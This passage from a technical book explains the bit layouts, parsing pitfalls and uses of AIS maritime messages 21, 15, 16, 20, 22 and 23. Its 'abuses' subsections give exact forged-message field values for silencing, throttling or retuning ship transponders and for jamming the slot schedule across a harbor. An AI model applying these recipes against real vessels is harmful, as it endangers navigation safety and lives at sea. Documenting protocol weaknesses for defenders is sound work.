| **1. Real AIS AtoN** | **Yes** (Buoy, beacon, lighthouse, wind turbine) | Mounted directly on the physical AtoN structure | `99MID1xxx` | **`0`** | Onboard GNSS continuously compares live $(\lambda, \phi)$ against surveyed watch-circle radius; sets `Off-Position = 1` if mooring drags! |
| **2. Synthetic Monitored AtoN** | **Yes** (Physical buoy or offshore light) | Shore AIS Base Station (`Repeat Indicator = 1` or AtoN MMSI) | `99MID1xxx` | **`0`** | Buoy connects to shore via telemetry link (UHF/satellite/cellular); shore Base Station broadcasts Msg 21 with live monitored status. |
| **3. Synthetic Predicted AtoN** | **Yes** (Unmonitored buoy or fixed beacon) | Shore AIS Base Station | `99MID1xxx` | **`0`** | **Dangerous limitation:** Buoy has *no* sensor link! Shore Base Station broadcasts charted coordinates (`Time Stamp = 63` or `61`); **cannot detect if buoy breaks adrift!** |
| **4. Virtual AIS AtoN** | **NO** (No physical object exists in the water!) | Shore AIS Base Station | `99MID6xxx` | **`1`** | Rendered on ECDIS with a dashed diamond (`V-AtoN`); impossible to see visually or on marine radar! |

##### Relationship with UK/Ireland GLA Health Telemetry (`DAC = 235 / 232, FI = 10`)
While Message 21's 8-bit `AtoN Status` field summarizes basic lantern and RACON states for shipboard ECDIS, lighthouse tender engineers need granular engineering telemetry (exact battery voltage, solar charging current, hatch tamper switches, and reserve lamp status). As analyzed in detail in [Chapter 39](ch39-european-inland-and-gla-asm-subtypes.md), Real AIS AtoNs deployed by Trinity House, the Northern Lighthouse Board, and the Commissioners of Irish Lights pair their 3-minute **Message 21** broadcasts with **Message 6 or Message 8 (`DAC = 235` [or `232`], `FI = 10`)**, using the shared `99MID1xxx` MMSI as the relational join key.

##### Historical & Operational Uses
1. **Instantaneous Wreck and Hazard Marking:** Following the 2002 *MV Tricolor* disaster, coastal authorities worldwide adopted Virtual AtoNs (`Virtual Aid Flag = 1`, `Aid Type = 4` or `20–23`) as their primary rapid-response tool. When the car carrier *Baltic Ace* sank in the Rotterdam approach in December 2012, and when the *Fremantle Highway* burned north of Ameland in 2023, the Dutch Coast Guard projected Virtual Cardinal and Wreck marks via Message 21 within minutes.
2. **Shifting Sandbars, Ice Channels, and Dynamic Estuaries:** In waterways where winter sea ice crushes physical buoys (such as the Gulf of Bothnia, St. Lawrence River, and Upper Chesapeake Bay) or where sandbars migrate rapidly after hurricanes (Mississippi River Southwest Pass, Columbia River Bar, German Bight), Virtual AtoNs replace seasonal "ice buoys" and mark temporary dredged channels.
3. **Offshore Wind Farm Construction & Platform Perimeters:** During construction of massive offshore wind arrays (e.g., Dogger Bank, Hornsea, Vineyard Wind), corner turbines and offshore converter platforms carry Real AIS AtoNs (`Aid Type = 3`, *Fixed structure off-shore*) paired with Virtual Special Marks (`Aid Type = 30`) delineating construction exclusion zones.

##### Known Implementation Issues & Adversarial Abuses
* **Variable-Length `Name Extension` Byte-Alignment Bugs (`272 to 360 bits`):** When a name exceeds 20 characters, `1` to `14` extra 6-bit ASCII characters (`6` to `84 bits`) are appended starting at bit `272`, followed by `0, 2, 4, or 6` zero padding bits so the total bit count is divisible by 8:
  $$\text{Valid Msg 21 Bit Lengths} \in \{272, 280, 288, 296, 304, 312, 320, 328, 336, 344, 352, 360\}$$
  In practice, poorly compliant AtoN transmitters in the wild also emit unpadded 6-bit character multiples (`278, 284, 290, ...` bits). Parsers that hardcode `if len(bits) != 272 and len(bits) != 360: return ERROR` drop up to $40\%$ of coastal AtoNs! Robust decoders (`libais` `Ais21`) require `bit_len >= 272 and bit_len <= 360`, compute `ext_chars = (bit_len - 272) // 6`, and treat `bit_len - 272 - 6 * ext_chars` as trailing spare bits.
* **Uncertified Fishing-Gear Buoys Spoofing Message 21:** As documented in [Chapter 19](../part4-space-air-vdes/ch19-fishing-gear-amrds-and-user-hacks.md), thousands of uncertified drift-net and longline radio beacons ("sun-buoys") manufactured in East Asia are programmed to transmit **Message 21** using fabricated `99xxxxxxx` (or random `100000000`–`899999999`) MMSIs and strings such as `"NET 01"`, `"8888-1"`, or `"V92-3 95%"` (encoding battery percentage inside the AtoN Name field!). Why do net-buoy firmware authors abuse Message 21 instead of Message 18? Because cheap fish-finder chartplotters highlight Message 21 targets with a permanent, prominent **AtoN diamond symbol** that never ages out rapidly like a moving ship target. On a SOLAS merchant ship transiting the East China Sea, West Africa, or the Bay of Bengal, receiving 300 counterfeit Message 21 net-buoys simultaneously covers the ECDIS screen in fake navigational hazard symbols and triggers continuous guard-zone alarms!

---

### 35.3 Interrogation and VDL Data Link Control Messages (Messages 15, 16, 20, 22, and 23)

The five link-control and interrogation messages form a tightly coupled distributed control plane governed by **ITU-R M.1371-5 Annex 2** and **IEC 62320-1** (*AIS Base Stations*).



#### 35.3.1 Message 15: Interrogation (`88, 110, 112, or 160 bits`, 1 Slot)

##### How Message 15 Works
When a shore VTS Base Station (or an approaching vessel) detects position reports (`Message 1` or `Message 18`) from an MMSI whose static identity (`Message 5` or `Message 24`) is not yet in its local database—and does not wish to wait up to $6\text{ minutes}$ for the next scheduled static broadcast—it transmits **Message 15 (*Interrogation*)** using **RATDMA**, **ITDMA**, or **FATDMA**. Message 15 can interrogate:
1. **1 Station for 1 Message Type (`88 bits`):** `Destination ID 1` + `Message ID 1.1` + `Slot Offset 1.1`.
2. **1 Station for 2 Message Types (`110 bits`, or `112 bits` byte-aligned):** Adds 2 spare bits + `Message ID 1.2` (6b) + `Slot Offset 1.2` (12b) (+ 2 optional spare bits). Commonly used to request **Message 3** and **Message 5** simultaneously from a Class A ship, or **Message 24 (which automatically triggers both Part A and Part B!)** from a Class B ship.
3. **2 Stations (`160 bits`):** Appends `Destination ID 2` (30b) + `Message ID 2.1` (6b) + `Slot Offset 2.1` (12b) + 2 spare bits.

#### Table 35.6: Bit-Level Layout of Message 15 (Interrogation — 88, 110, 112, or 160 Bits, 1 Slot)

| 0-Based Bits (`libais`) | 1-Based ITU Bits | Width | Field Name | `libais` / Variable Name | Type | Scale / Units | Valid Range & Sentinel ("Not Available") |
|---|---|---:|---|---|---|---|---|
| `0..5` | `1..6` | 6 | Message ID | `message_id` | `uint6` | Enum | `15` |
| `6..7` | `7..8` | 2 | Repeat Indicator | `repeat_indicator` | `uint2` | Hops | `0–3` |
| `8..37` | `9..38` | 30 | Source ID (MMSI) | `mmsi` | `uint30` | 9-digit ID | Interrogating Base Station or Ship MMSI |
| `38..39` | `39..40` | 2 | Spare | `spare` | `uint2` | — | `0` |
| `40..69` | `41..70` | 30 | Destination ID 1 (MMSI) | `mmsi_1` | `uint30` | 9-digit ID | First interrogated target MMSI (Mandatory) |
| `70..75` | `71..76` | 6 | Message ID 1.1 | `msg_1_1` | `uint6` | Msg ID | `1–27` (Typically `3`, `5`, `18`, `19`, or `24`) |
| `76..87` | `77..88` | 12 | Slot Offset 1.1 | `slot_offset_1_1` | `uint12` | Slots | Offset for response (`0` = target selects own RATDMA slot; only Base Station may set `>0`) |
| `88..89` | `89..90` | 2 | Spare 2 | `spare2` | `uint2` | — | *Optional* (`0`; present if total length $\ge 110\text{ bits}$) |
| `90..95` | `91..96` | 6 | Message ID 1.2 | `msg_1_2` | `uint6` | Msg ID | *Optional* 2nd requested message from `mmsi_1` (`0` = none) |
| `96..107` | `97..108` | 12 | Slot Offset 1.2 | `slot_offset_1_2` | `uint12` | Slots | *Optional* slot offset for `msg_1_2` |
| `108..109` | `109..110` | 2 | Spare 3 | `spare3` | `uint2` | — | *Optional* (`0`; present in `112-bit` and `160-bit` variants) |
| `110..139` | `111..140` | 30 | Destination ID 2 (MMSI) | `mmsi_2` | `uint30` | 9-digit ID | *Optional* 2nd interrogated MMSI (present if `160 bits`) |
| `140..145` | `141..146` | 6 | Message ID 2.1 | `msg_2_1` | `uint6` | Msg ID | *Optional* requested message from `mmsi_2` |
| `146..157` | `147..158` | 12 | Slot Offset 2.1 | `slot_offset_2_1` | `uint12` | Slots | *Optional* slot offset for `msg_2_1` |
| `158..159` | `159..160` | 2 | Spare 4 | `spare4` | `uint2` | — | *Optional* (`0`) |

##### Relationships, Issues, Uses, and Abuses (Message 15)
* **Response State Machine:** Upon receiving Message 15, the interrogated transponder responds on the **same VHF channel** using **ITDMA** (or **RATDMA** / **CSTDMA**). If a Class A ship is interrogated for a position report (`Message ID 1.1 = 1, 2, or 3`), ITU-R M.1371-5 mandates that it always reply with **Message 3 (*Special Position Report, Response to Interrogation*)**. If a Class B unit is interrogated for `Message ID = 24`, it automatically transmits **both Message 24 Part A and Message 24 Part B**.
* **The `88 / 110 / 112 / 160` Bit-Length Parser Trap:** When a station sends the 1-station, 2-message variant without `Spare 3`, the payload is `110 bits` ($18 \times 6 + 2$, NOT divisible by 8!); when byte-aligned with `Spare 3`, it is `112 bits` ($14\text{ bytes}$). Furthermore, some legacy Base Stations transmit `160-bit` frames where `mmsi_2 = 0` instead of truncating at `88` or `112 bits`. Decoders must branch cleanly on `bit_len in {88, 110, 112, 160}` (and tolerate `88 <= bit_len <= 168`) as implemented in `libais` (`Ais15`).
* **Abuse — Interrogation Amplification DoS:** Because a single `88-bit` Message 15 requesting `Message 5` (`424 bits`, 2 slots) and `Message 3` (`168 bits`, 1 slot) forces the target ship to transmit `592 bits` (3 slots) of RF energy—a **$6.7\times$ bandwidth amplification factor**—an attacker spoofing Message 15 queries against dozens of vessels in a harbor can induce severe multi-slot VDL congestion.

---

#### 35.3.2 Message 16: Assigned Mode Command (`96 or 144 bits`, 1 Slot)

##### How Message 16 Works
Transmitted exclusively by a shore **Base Station** (`MMSI 00MIDxxxx`) using **FATDMA** or **RATDMA**, **Message 16** overrides the autonomous SOTDMA reporting schedule of **1 vessel (`96 bits`)** or **2 vessels (`144 bits`)**.

#### Table 35.7: Bit-Level Layout of Message 16 (Assigned Mode Command — 96 or 144 Bits, 1 Slot)

| 0-Based Bits (`libais`) | 1-Based ITU Bits | Width | Field Name | `libais` / Variable Name | Type | Scale / Units | Valid Range & Sentinel ("Not Available") |
|---|---|---:|---|---|---|---|---|
| `0..5` | `1..6` | 6 | Message ID | `message_id` | `uint6` | Enum | `16` |
| `6..7` | `7..8` | 2 | Repeat Indicator | `repeat_indicator` | `uint2` | Hops | `0–3` |
| `8..37` | `9..38` | 30 | Source ID (MMSI) | `mmsi` | `uint30` | 9-digit ID | Commanding Base Station MMSI (`00MIDxxxx`) |
| `38..39` | `39..40` | 2 | Spare | `spare` | `uint2` | — | `0` |
| `40..69` | `41..70` | 30 | Destination ID A (MMSI) | `dest_mmsi_a` | `uint30` | 9-digit ID | First assigned vessel MMSI |
| `70..81` | `71..82` | 12 | **Offset A** | `offset_a` | `uint12` | Slots or Rate | If `inc_a > 0`: Slot offset (`0–3999`); if `inc_a == 0`: TXs per $10\text{ min}$ |
| `82..91` | `83..92` | 10 | **Increment A** | `inc_a` | `uint10` | Encoded Step | `0` = Rate mode via `offset_a`; `1–7` = $2250 / 2^{\text{inc\_a}}$ slots (or raw step) |
| `92..95` | `93..96` | 4 | **Spare (96-bit only!)** | `spare2` | `uint4` | — | **Present ONLY in 1-station (`96-bit`) message!** |
| `92..121` | `93..122` | 30 | Destination ID B (MMSI) | `dest_mmsi_b` | `uint30` | 9-digit ID | Second assigned vessel MMSI (**Present ONLY in `144-bit` message!**) |
| `122..133` | `123..134` | 12 | Offset B | `offset_b` | `uint12` | Slots or Rate | Slot offset or TX rate for Station B (`144-bit` variant) |
| `134..143` | `135..144` | 10 | Increment B | `inc_b` | `uint10` | Encoded Step | Slot increment for Station B (`144-bit` variant) |

##### Dual Semantics of `(Offset, Increment)` and Timeout Equations
ITU-R M.1371-5 Annex 2 (§3.3.8.2.12) defines two distinct operating modes for `(offset, inc)`:
1. **Explicit Slot Assignment Mode (`inc > 0`):** The target vessel sets its `Assigned Mode` flag, transitions from Message 1 to **Message 2 (*Position Report — Assigned Scheduled*)** (or **Message 3** using ITDMA), and transmits at the exact time slots:
   $$\text{Slot}_k = \left(\text{Slot}_{\text{Msg16}} + \text{Offset} + k \cdot \Delta S\right) \bmod 2250$$
   where the slot step $\Delta S$ is derived from `inc`.
2. **Reporting-Rate Assignment Mode (`inc == 0`):** When `Increment == 0`, the 12-bit `Offset` field does **not** specify a slot offset; instead, it specifies the **assigned number of transmissions per 10 minutes ($600\text{ s}$)**:
   $$\Delta t_{\text{assigned}} = \frac{600\text{ seconds}}{\text{Offset}} \quad (\text{valid for } 1 \le \text{Offset} \le 300 \implies \Delta t \in [2\text{ s}, 600\text{ s}])$$
   In this mode, the vessel continues to select its own SOTDMA slots autonomously (often continuing to broadcast **Message 1** rather than Message 2, which explains the *Message 2 rarity paradox* noted in [Chapter 31](ch31-messages-1-2-3-class-a-position-reports.md)!).
3. **Automatic Expiration Timer:** To prevent a vessel leaving VTS coverage from remaining permanently locked into an assigned schedule, the assignment expires automatically after a random timeout $T_{\text{exp}} \sim \mathcal{U}(240\text{ s}, 480\text{ s})$ ($4\text{ to }8\text{ minutes}$) unless refreshed by another Message 16.

##### Issues & Abuses (Message 16)
* **The Bit `92` Polymorphic Shift:** Notice in Table 35.7 that in a `96-bit` (1-station) Message 16, bits `92..95` are `4 spare bits`. In a `144-bit` (2-station) Message 16, those 4 spare bits are **omitted**, and `Destination ID B` begins immediately at **`bit[92]`**! Any parser that blindly reads 4 spare bits at `bits[92:96]` before unpacking `dest_mmsi_b` shifts Station B's MMSI, Offset, and Increment by 4 bits and reads past the end of the 144-bit buffer.
* **Assigned-Mode Rate-Throttling DoS (`inc = 0, offset = 1`):** An attacker spoofing a Base Station MMSI can send a `96-bit` Message 16 to a fast container ship or ferry moving at $22\text{ knots}$ (normally reporting every $2\text{–}6\text{ seconds}$) with `inc_a = 0` and `offset_a = 1`. The target transponder dutifully throttles its position broadcasts down to **once every 10 minutes ($600\text{ s}$)**—moving $3.7\text{ NM}$ between updates and effectively blinding nearby ARPA/AIS collision-avoidance systems!

---

#### 35.3.3 Message 20: Data Link Management Message (`72, 104, 136, or 160 bits`, 1 Slot)

##### How Message 20 Works
Shore Base Stations, coastal repeaters, DGNSS transmitters (Message 17), and fixed AtoNs (Message 21) transmit on deterministic **FATDMA** schedules. To prevent mobile vessels from colliding with those fixed slots, a Base Station broadcasts **Message 20** every $4\text{ to }10\text{ minutes}$ to advertise between **1 and 4 FATDMA reservation blocks** across the 2,250-slot frame.

#### Table 35.8: Bit-Level Layout of Message 20 (Data Link Management Message — 72, 104, 136, or 160 Bits, 1 Slot)

| 0-Based Bits (`libais`) | 1-Based ITU Bits | Width | Field Name | `libais` / Variable Name | Type | Scale / Units | Valid Range & Sentinel ("Not Available") |
|---|---|---:|---|---|---|---|---|
| `0..5` | `1..6` | 6 | Message ID | `message_id` | `uint6` | Enum | `20` |
| `6..7` | `7..8` | 2 | Repeat Indicator | `repeat_indicator` | `uint2` | Hops | `0–3` |
| `8..37` | `9..38` | 30 | Source ID (MMSI) | `mmsi` | `uint30` | 9-digit ID | Base Station MMSI (`00MIDxxxx`, paired with Msg 4 position) |
| `38..39` | `39..40` | 2 | Spare | `spare` | `uint2` | — | `0` |
| `40..51` | `41..52` | 12 | Offset Number 1 | `offset_1` | `uint12` | Slots | `0–2249` (Slot offset from current Msg 20 slot) |
| `52..55` | `53..56` | 4 | Number of Reserved Slots 1| `num_slots_1` | `uint4` | Slots | `1–5` consecutive slots (`0` = cancel reservation block) |
| `56..58` | `57..59` | 3 | Time-Out 1 | `timeout_1` | `uint3` | Minutes | `1–7` minutes until reservation expires |
| `59..69` | `60..70` | 11 | Increment 1 | `incr_1` | `uint11` | Slots | `0–2047` slot stride between repeated FATDMA bursts in frame |
| `70..71` | `71..72` | 2 | *Spare (if 1 block: `72b`)* | `spare2` | `uint2` | — | Present **only** when total length $= 72\text{ bits}$ |
| `70..99` | `71..100` | 30 | **Reservation Block 2** | `offset_2`..`incr_2`| $12+4+3+11\text{b}$| — | Present if $\ge 104\text{b}$ (`4` spare bits at `100..103` if `104b`) |
| `100..129` | `101..130` | 30 | **Reservation Block 3** | `offset_3`..`incr_3`| $12+4+3+11\text{b}$| — | Present if $\ge 136\text{b}$ (`6` spare bits at `130..135` if `136b`) |
| `130..159` | `131..160` | 30 | **Reservation Block 4** | `offset_4`..`incr_4`| $12+4+3+11\text{b}$| — | Present if $= 160\text{b}$ (`0` trailing spare bits!) |

##### Mathematical Expansion of FATDMA Reserved Slot Sets and the $120\text{ NM}$ Message 4 Coupling
Suppose a Base Station transmits Message 20 in time slot $S_0 \in \{0..2249\}$. For each reservation block $b \in \{1..4\}$ with `(offset_b, num_slots_b, timeout_b, incr_b)`:
* The first reserved burst begins at slot $S_{b,0} = (S_0 + \text{offset}_b) \bmod 2250$.
* If $\text{incr}_b > 0$, the reservation repeats across the remainder of the 2,250-slot frame at every multiple $m \ge 0$ of $\text{incr}_b$, reserving the set of slots:
  $$\mathcal{R}_b = \bigcup_{m=0}^{\lfloor (2249 - \text{offset}_b)/\text{incr}_b \rfloor} \left\{ (S_{b,0} + m \cdot \text{incr}_b + j) \bmod 2250 \;\Big|\; 0 \le j < \text{num\_slots}_b \right\}$$
* **Crucial Spatial Coupling with Message 4 ($120\text{ NM}$ Rule):** Why must a Base Station broadcast **Message 4 (*Base Station Report*)** alongside Message 20? Because during atmospheric tropospheric ducting (see [Chapter 6](../part2-rf-hardware/ch06-rf-propagation-ducting-and-loading.md)), a ship can receive a Message 20 from a Base Station $400\text{ NM}$ away! To prevent distant ducted Base Stations from locking up local time slots, **ITU-R M.1371-5 Annex 2 (§3.2.2.5)** mandates that a mobile station look up the Base Station's `Source MMSI` (`bits[8:38]`) in its cached **Message 4** table, compute the great-circle distance $d$ to the Base Station's surveyed $(\lambda_{\text{BS}}, \phi_{\text{BS}})$, and **only honor Message 20 reservations if $d \le 120\text{ NM}$** (or if the Base Station's position is unknown).

##### Issues & Abuses — FATDMA Slot-Starvation DoS
What happens if an adversary with an SDR transmits a single forged `160-bit` **Message 20** (4 blocks) on AIS 1 and AIS 2 with `offset = 1`, `num_slots = 5`, `timeout = 7` (7 minutes), and `incr = 5`?
* Because $\text{num\_slots} = 5$ and $\text{incr} = 5$, the formula above reserves **every single slot ($100\%$ of the 2,250 slots per frame!)** on both VHF channels for the next $7\text{ minutes}$!
* Even worse, if the attacker uses a random `00MIDxxxx` MMSI for which nearby ships have *not* received a Message 4 (or spoofs a Message 4 at the harbor center), every compliant Class A and Class B SOTDMA/CSTDMA transceiver in the port marks all 2,250 slots as "FATDMA Reserved by Base Station." Class B CSTDMA units (`IEC 62287-1`) are strictly forbidden from transmitting over FATDMA-reserved slots even if Carrier Sense detects zero RF energy, resulting in a **complete protocol-level denial of service** using less than $50\text{ ms}$ of attacker RF transmission every 7 minutes!

---

#### 35.3.4 Message 22: Channel Management (`168 bits`, 1 Slot)

##### How Message 22 Works
**Message 22 (*Channel Management*)** enables a competent authority to dynamically switch the operating frequencies (`Channel A` and `Channel B`), channel bandwidths ($25\text{ kHz}$ vs. $12.5\text{ kHz}$), transmit/receive channel selection (`Tx/Rx Mode`), and transmitter power ($12.5\text{ W}$ vs. $1\text{ W}$) either for **all vessels inside a geographic rectangle (`Addressed = 0`)** or for **1 or 2 individually addressed vessels (`Addressed = 1`)**.

#### Table 35.9: Bit-Level Layout of Message 22 (Channel Management — 168 Bits, 1 Slot)

| 0-Based Bits (`libais`) | 1-Based ITU Bits | Width | Field Name | `libais` / Variable Name | Type | Scale / Units | Valid Range & Sentinel ("Not Available") |
|---|---|---:|---|---|---|---|---|
| `0..5` | `1..6` | 6 | Message ID | `message_id` | `uint6` | Enum | `22` |
| `6..7` | `7..8` | 2 | Repeat Indicator | `repeat_indicator` | `uint2` | Hops | `0–3` |
| `8..37` | `9..38` | 30 | Source ID (MMSI) | `mmsi` | `uint30` | 9-digit ID | Commanding Base Station MMSI (`00MIDxxxx`) |
| `38..39` | `39..40` | 2 | Spare | `spare` | `uint2` | — | `0` |
| `40..51` | `41..52` | 12 | **Channel A** | `chan_a` | `uint12` | ITU-R M.1084 | VHF Channel # (`2087` = AIS 1 [$161.975\text{ MHz}$]) |
| `52..63` | `53..64` | 12 | **Channel B** | `chan_b` | `uint12` | ITU-R M.1084 | VHF Channel # (`2088` = AIS 2 [$162.025\text{ MHz}$]) |
| `64..67` | `65..68` | 4 | **Tx/Rx Mode** | `txrx_mode` | `uint4` | Enum (`0–15`) | `0`=TxA/TxB, RxA/RxB; `1`=TxA, RxA/B; `2`=TxB, RxA/B |
| `68..68` | `69..69` | 1 | **Power** | `power_low` | `bool` | Flag | `0` = High power ($12.5\text{ W}$); **`1` = Low power ($1\text{ W}$)** |
| `69..86` | `70..87` | 18 | **[If `Addressed=0`]:** NE Lon 1 | `x1` / `ne_lon` | `int18` | $\frac{1}{10}\text{ min}$ ($\frac{1}{600}^\circ$) | North-East Longitude ($[-180^\circ, +180^\circ]$) |
| `87..103` | `88..104` | 17 | **[If `Addressed=0`]:** NE Lat 1 | `y1` / `ne_lat` | `int17` | $\frac{1}{10}\text{ min}$ ($\frac{1}{600}^\circ$) | North-East Latitude ($[-90^\circ, +90^\circ]$) |
| `104..121` | `105..122` | 18 | **[If `Addressed=0`]:** SW Lon 2 | `x2` / `sw_lon` | `int18` | $\frac{1}{10}\text{ min}$ ($\frac{1}{600}^\circ$) | South-West Longitude ($[-180^\circ, +180^\circ]$) |
| `122..138` | `123..139` | 17 | **[If `Addressed=0`]:** SW Lat 2 | `y2` / `sw_lat` | `int17` | $\frac{1}{10}\text{ min}$ ($\frac{1}{600}^\circ$) | South-West Latitude ($[-90^\circ, +90^\circ]$) |
| `69..98` | `70..99` | 30 | **[If `Addressed=1`]:** Dest MMSI 1| `dest_mmsi_1` | `uint30` | 9-digit ID | Addressed MMSI 1 (followed by 5 spare bits at `99..103`) |
| `104..133` | `105..134` | 30 | **[If `Addressed=1`]:** Dest MMSI 2| `dest_mmsi_2` | `uint30` | 9-digit ID | Addressed MMSI 2 (followed by 5 spare bits at `134..138`) |
| `139..139` | `140..140` | 1 | **Addressed Broadcast Flag** | `addressed` | `bool` | Selector | **`0` = Broadcast Geographic Box; `1` = Addressed MMSIs** |
| `140..140` | `141..141` | 1 | Channel A Bandwidth | `band_a` | `bool` | Flag | `0` = Specified by channel # ($25\text{ kHz}$); `1` = $12.5\text{ kHz}$ |
| `141..141` | `142..142` | 1 | Channel B Bandwidth | `band_b` | `bool` | Flag | `0` = Specified by channel # ($25\text{ kHz}$); `1` = $12.5\text{ kHz}$ |
| `142..144` | `143..145` | 3 | Transitional Zone Size | `zone_size` | `uint3` | $\text{Val} + 1\text{ NM}$| `0–7` $\rightarrow$ **$1\text{ to }8\text{ NM}$** (`4` = $5\text{ NM}$ default) |
| `145..167` | `146..168` | 23 | Spare | `spare2` | `uint23` | — | `0` |

##### Legitimate Uses vs. the Balduzzi et al. Frequency-Hopping Hijack
* **Legitimate Operational Use:**
  1. *Regional Frequency Handovers (St. Lawrence Seaway & USCG Zones):* Historically, in portions of the Great Lakes, St. Lawrence Seaway, and inland US rivers where VHF public correspondence stations occupied Channel 87B or 88B, USCG and Canadian Coast Guard Base Stations broadcast Message 22 (`Addressed = 0`) defining a bounding box ($20\text{–}200\text{ NM}$ wide) with a $5\text{ NM}$ `Transitional Zone`. While transiting the $5\text{ NM}$ transitional boundary, a ship transmits on *one* standard AIS channel and *one* regional channel so vessels inside and outside the zone can both see it; once inside the inner box, it switches completely to the regional channels.
  2. *Petroleum Tanker Terminal Low-Power Mode (`Power = 1`):* When an oil or LNG tanker is berthed and manifolded at a petrochemical terminal, an addressed Message 22 (`Addressed = 1`, `Power = 1`) instructs its Class A transceiver to drop transmit power from $12.5\text{ W}$ to **$1\text{ W}$** (and reduce reporting rate to $3\text{ minutes}$) for intrinsic spark/RF safety.
* **Adversarial Abuse — The Frequency-Hopping / TX-Disable Exploit:**
  Because `Channel A` (`bits[40:52]`) and `Channel B` (`bits[52:64]`) accept any 12-bit ITU-R M.1084 marine VHF simplex channel number across $156.025\text{–}162.025\text{ MHz}$ (e.g., `2071` = $156.575\text{ MHz}$), an attacker can broadcast a forged geographic Message 22 (`Addressed = 0`) whose `NE/SW` bounding box covers an entire harbor or strait:
  * The moment vessels inside the bounding box process the forged Message 22, **their internal VHF synthesizers retune away from AIS 1 ($161.975\text{ MHz}$) and AIS 2 ($162.025\text{ MHz}$)** onto the attacker's arbitrary frequencies!
  * Even more insidiously, if the attacker sets `Channel A = 2087` (AIS 1), `Channel B = 9999` (an invalid channel number), and `Tx/Rx Mode = 2` (*Transmit on Channel B only, Receive on A and B*), compliant transponders reject the invalid Channel B frequency and **disable transmission altogether** while remaining stuck in the regional zone for up to $25\text{ minutes}$ (or until the ship sails outside the bounding box)!

---

#### 35.3.5 Message 23: Group Assignment Command (`160 bits`, 1 Slot)

##### How Message 23 Works
Introduced in ITU-R M.1371-3/4 primarily to manage high-density Class B and inland vessel fleets without addressing each MMSI individually via Message 16, **Message 23 (*Group Assignment Command*)** targets all vessels inside a geographic bounding box (`NE/SW` corners at `bits[40:110]`) that match a **Station Type** filter (`bits[110:114]`) and a **Ship and Cargo Type** filter (`bits[114:122]`).

#### Table 35.10: Bit-Level Layout of Message 23 (Group Assignment Command — 160 Bits, 1 Slot)

| 0-Based Bits (`libais`) | 1-Based ITU Bits | Width | Field Name | `libais` / Variable Name | Type | Scale / Units | Valid Range & Sentinel ("Not Available") |
|---|---|---:|---|---|---|---|---|
| `0..5` | `1..6` | 6 | Message ID | `message_id` | `uint6` | Enum | `23` |
| `6..7` | `7..8` | 2 | Repeat Indicator | `repeat_indicator` | `uint2` | Hops | `0–3` |
| `8..37` | `9..38` | 30 | Source ID (MMSI) | `mmsi` | `uint30` | 9-digit ID | Commanding Base Station MMSI (`00MIDxxxx`) |
| `38..39` | `39..40` | 2 | Spare | `spare` | `uint2` | — | `0` |
| `40..57` | `41..58` | 18 | North-East Longitude 1 | `x1` / `ne_lon` | `int18` | $\frac{1}{10}\text{ min}$ ($\frac{1}{600}^\circ$) | $[-180^\circ, +180^\circ]$ |
| `58..74` | `59..75` | 17 | North-East Latitude 1 | `y1` / `ne_lat` | `int17` | $\frac{1}{10}\text{ min}$ ($\frac{1}{600}^\circ$) | $[-90^\circ, +90^\circ]$ |
| `75..92` | `76..93` | 18 | South-West Longitude 2 | `x2` / `sw_lon` | `int18` | $\frac{1}{10}\text{ min}$ ($\frac{1}{600}^\circ$) | $[-180^\circ, +180^\circ]$ |
| `93..109` | `94..110` | 17 | South-West Latitude 2 | `y2` / `sw_lat` | `int17` | $\frac{1}{10}\text{ min}$ ($\frac{1}{600}^\circ$) | $[-90^\circ, +90^\circ]$ |
| `110..113` | `111..114` | 4 | **Station Type** | `station_type` | `uint4` | Enum (`0–15`) | `0`=All mobiles; `2`=All Class B; `3`=SAR; `4`=AtoN; `5`=Class B CS; `6`=Inland |
| `114..121` | `115..122` | 8 | **Type of Ship and Cargo**| `type_and_cargo` | `uint8` | Enum (`0–99`) | `0` = All ship types; `10–99` = Specific ship category |
| `122..143` | `123..144` | 22 | Spare | `spare2` | `uint22` | — | `0` |
| `144..145` | `145..146` | 2 | **Tx/Rx Mode** | `txrx_mode` | `uint2` | Enum (`0–3`) | `0`=TxA/TxB, RxA/RxB; `1`=TxA only; `2`=TxB only; `3`=Reserved |
| `146..149` | `147..150` | 4 | **Reporting Interval** | `interval_raw` | `uint4` | Enum (`0–15`) | `0`=Autonomous; `1`=$10\text{m}$; `2`=$6\text{m}$; `3`=$3\text{m}$; `4`=$1\text{m}$; `5`=$30\text{s}$; `6`=$15\text{s}$; `7`=$10\text{s}$; `8`=$5\text{s}$; `9`=$2\text{s}$; `10`=Next shorter ($5\text{s}$ CS); `11`=Next longer |
| `150..153` | `151..154` | 4 | **Quiet Time** | `quiet` | `uint4` | Minutes | **`0` = No quiet time; `1–15` = Cease all TX for $1\text{–}15\text{ minutes}$!** |
| `154..159` | `155..160` | 6 | Spare | `spare3` | `uint6` | — | `0` |

##### Uses and Abuses — The `Quiet Time = 15` Fleet Silencing Weapon
* **Legitimate Design Intent:** In a busy yacht harbor during a maritime SAR emergency, a VTS Base Station can broadcast Message 23 with `Station Type = 5` (*Class B "CS" only*) and `Reporting Interval = 2` ($6\text{ minutes}$) or `Quiet Time = 10` ($10\text{ minutes}$) so thousands of recreational yachts temporarily stop cluttering the VDL while SAR helicopters (`Station Type = 3`) and lifeboats coordinate the rescue. Conversely, setting `Station Type = 5` and `Reporting Interval = 10` speeds up a Class B "CS" yacht in distress from its normal $30\text{ s}$ interval to **$5\text{ seconds}$**.
* **Catastrophic Abuse (`Station Type = 0`, `Ship Type = 0`, `Quiet Time = 15`):** Because Message 23 allows `Station Type = 0` (*All types of mobile stations*, including Class A SOLAS ships in certain firmware revisions or all Class B / Inland ships) and `Ship Type = 0` (*All ship types*), a single forged `160-bit` Message 23 frame with `Quiet Time = 15` (`bits[150:154] = 1111`) instructs every matching transponder inside the bounding box to **shut off its VHF transmitter for 15 full minutes**! Repeating this single 1-slot burst once every 14 minutes maintains perpetual radio silence across an entire strait.

---

### 35.4 Where and When Used: Empirical VDL Traffic Share & Geographic Distribution

How frequently do these nine messages appear in real-world terrestrial and satellite AIS feeds?

#### Table 35.11: Empirical VDL Traffic Share, Broadcast Cadence, and Geographic Distribution

| Msg ID | Message Name | Slot Length | Typical Broadcast Cadence | Terrestrial Coastal VDL Share | Satellite LEO VDL Share | Primary Geographic / Operational Context |
|---:|---|---|---|---:|---:|---|
| **12** | Addressed Safety Text | `1–5 slots` | Event-driven (+ up to 3 retries at $4\text{ s}$) | `0.02% – 0.15%` | `< 0.01%` | VTS port approaches, pilot boarding grounds, congested anchorages |
